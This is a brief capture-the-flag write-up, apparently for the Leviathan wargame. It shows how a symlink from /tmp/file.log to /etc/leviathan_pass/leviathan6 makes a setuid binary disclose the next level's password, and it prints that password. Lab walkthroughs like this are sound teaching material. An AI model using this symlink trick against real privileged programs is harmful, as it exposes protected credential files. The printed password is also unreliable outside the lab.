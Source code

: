 There's a leviathan5 file with setuid of leviathan6

```
file leviathan5
setuid ELF 32-bit LSB executable
```

This executable reads a file that doesn't exist /tmp/file.log

```
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
./leviathan5
```

UgaoFee4li

